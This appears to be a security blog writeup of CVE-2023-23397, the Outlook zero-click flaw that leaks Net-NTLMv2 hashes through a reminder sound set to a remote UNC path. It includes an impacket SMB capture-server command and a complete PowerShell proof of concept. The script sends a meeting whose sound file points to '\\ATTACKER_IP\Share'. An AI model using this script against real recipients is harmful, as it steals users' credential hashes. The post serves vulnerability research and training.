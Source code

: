 ```yaml
---
layout: post
title: CVE-2023-23397 - Zero Click Net-NTLMv2 Credential Hash Leak on Outlook Client
categories: [security, cve, vulnerability]
tags: [security, cve, vulnerability, windows]
description: A comprehensive writeup that helps to understand Zero Click Net-NTLMv2 Credential Hash on Outlook Client.
---
```


### Quick Overview

Microsoft announced patch for [CVE-2023-23397](https://nvd.nist.gov/vuln/detail/CVE-2023-23397) which generally goes out usually on tuesday (Mar 14, 2023). This particular vulnerability caught my eyes due to the fact that I actively work on `Active Directory` based HackTheBox machines and this one is something similar to `Android Application Exploits` where attacker passes random url to `activities` or `services` and the outbound network connection often contains sensitive tokens attached to it. 

IIRC, I reported a similar vulnerability in 2020 which completely leaks encrypted sandbox local files including e-mail, tasks in the ProtonMail Android Client [reference](https://proton.me/blog/protonmail-security-contributors) However, it requires user interaction in the victim side of Android app.

### CVE Summary

> TLDR: When the Malicious scheduled appointment email sent by attacker lands in the Victims Outlook Client, the client leaks the Net-NTLMv2 Credential Hash to the Attacker controlled SMB Server with Zero Interaction on Victim side

Outlook Windows desktop client feature allows to schedule appointment, send emails from the desktop. However, Appointment Scheduling allows `sender` to set a `custom reminder sound`. The surprise fact here is that this custom reminder sound file can be loaded from shared network (UNC Path), for example, \\ATTACKER_IP\Share\Sounds\reminder.wav which specifically uses SMB v2 (Probably) protocol. So, When the sender aka `attacker` sets the Outlook Appointment Reminder sound to `UNC path` (Universal naming convention path) the receiver Outlook client accepts the meeting and adds to the Calendar. When the Appointment duration approaches and Outlook starts reminding the receiver or `victim` the Outbound call is made from the victim machine to Attacker controlled UNC Path to load the custom reminder sound (say ringtone). The plot twist is this SMB Negotiation between the `victim outlook client` and attacker controlled SMB server actually leaks the victims Net-NTLMv2 Credential hash to the attacker.

![CVE-2023-23397-Sequential-diagram-to-understand-exploit](/assets/media/CVE-2023-23397-sequential-diagram.png)

### Quick Note on Net-NTLMv2 Credentials

If you're no stranger to Offensive security, You would definitely value the NTLMv2 Token. For others, [Here](https://admiralgaust.github.io/OSCP-notes/info/active-directory-theory.html) is the quick overview on NTLM Authentication used within Active Directory

### Exploit Strategy

1. Host a SMB Server with the help of impacket tools

   ```shell
   > attacker@kali $ smbserver.py Share sub_directory -smb2support
   ```

   ![CVE-2023-23397-Demo-Screenshot-1](/assets/media/htb-cve-2023-23397-demo-screenshot-1.png)

2. Create Outlook Appointment from Powershell (Attacker owned Windows Machine). You could potentially utilize below script to generate malcious appointment natively from powershell. [Source](https://github.com/ka7ana/CVE-2023-23397)

   ```powershell
   # PoC script for CVE-2023-23397, ported to PowerShell
   # Credits go to Dominic Chell at MDSec
   # See: https://www.mdsec.co.uk/2023/03/exploiting-cve-2023-23397-microsoft-outlook-elevation-of-privilege-vulnerability/

   $ol = New-Object -ComObject Outlook.Application
   $meeting = $ol.CreateItem('olAppointmentItem')
   $meeting.Subject = 'Time for a malicious meeting'
   $meeting.Body = 'Simple CVE-2023-23397 test script'
   $meeting.Location = 'Virtual'
   $meeting.ReminderSet = $True
   $meeting.Importance = 1
   $meeting.MeetingStatus = [Microsoft.Office.Interop.Outlook.OlMeetingStatus]::olMeeting
   $meeting.Recipients.Add('victim@domain.com') 

   $meeting.ReminderMinutesBeforeStart = 15
   $meeting.Start = [datetime]::Now.AddMinutes(16)
   $meeting.Duration = 30
   $meeting.ReminderPlaySound = $True
   $meeting.ReminderOverrideDefault = $True

   $meeting.ReminderSoundFile = "\\ATTACKER_IP\Share\Sounds\sample.wav" 

   $meeting.Save()
   $meeting.Send()
   ```

   ![CVE-2023-23397-Demo-Screenshot-2-Powershell](/assets/media/htb-cve-2023-23397-demo-screenshot-2-windows-powershell.png)

3. When the `Victim Outlook` Parses the appointment and reminds about the appointment, SMBv2 Handshare Negotiation is initiated between `Victim Outlook Process` and Attackers SMB Server
   
   ![CVE-2023-23397-Demo-Screenshot-4-exploit-desktop-client](/assets/media/htb-cve-2023-23397-outlook-client-demo-leak-ntlm-hash.png)
   ![CVE-2023-23397-Demo-Screenshot-3-exploit-leak](/assets/media/htb-cve-2023-23397-demo-screenshot-2-exploit.png)


### Source and Reference:

1. [Microsoft Outlook Elevation of Privilege Vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2023-23397)
2. [OutLook NTLM Leak Demo](https://tryhackme.com/room/outlookntlmleak)


### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
